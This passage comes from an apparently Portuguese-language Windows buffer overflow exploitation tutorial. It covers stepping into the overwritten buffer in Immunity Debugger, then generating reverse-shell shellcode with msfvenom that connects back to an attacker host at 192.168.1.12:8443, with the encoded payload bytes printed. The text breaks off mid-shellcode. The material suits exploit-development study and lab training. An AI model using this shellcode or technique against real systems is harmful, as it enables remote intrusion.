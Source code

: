 ![Immunity.](/img/std/winbof/winbof-14.png)

Após o programa parar em nosso breakpoint, podemos clicar em “F7” para avançar para próxima instrução, e veremos que caímos exatamente em nosso buffer de “C”.

## GERANDO O SHELLCODE E ORGANIZANDO O EXPLOIT

Para gerar nosso shellcode, vamos utilizar outro programa da suide MSF, o msfvenom, onde vamos configurar a conexão reversa com nossa máquina atacante.

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.12 lport=8443 -b '\x00' -v shellcode -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1965 bytes
shellcode =  b""
shellcode += b"\xb8\x39\x90\x2e\x4f\xda\xc9\xd9\x74\x24\xf4"
shellcode += b"\x5f\x2b\xc9\xb1\x52\x31\x47\x12\x83\xc7\x04"
shellcode += b"\x03\x7e\x9e\xcc\xba\x7c\x76\x92\x45\x7c\x87"
shellcode += b"\xf3\xcc\x99\xb6\x33\xaa\xea\xe9\x83\xb8\xbe"
shellcode += b"\x05\x6f\xec\x2a\x9d\x1d\x39\x5d\x16\xab\x1f"
shellcode += b"\x50\xa7\x80\x5c\xf3\x2b\xdb\xb0\xd3\x12\x14"
shellcode += b"\xc5\x12\x52\x49\x24\x46\x0b\x05\x9b\x76\x38"
shellcode += b"\x53\x20\xfd\x72\x75\x20\xe2\xc3\x74\x01\xb5"
shellcode += b"\x58\x2f\x81\x34\x8c\x5b\x88\x2e\xd1\x66\x42"
shellcode += b"\xc5\x21\x1c\x55\x0f\x78\xdd\xfa\x6e\xb4\x2c"
shellcode += b"\x02\xb7\x73\xcf\x71\xc1\x87\x72\x82\x16\xf5"
```
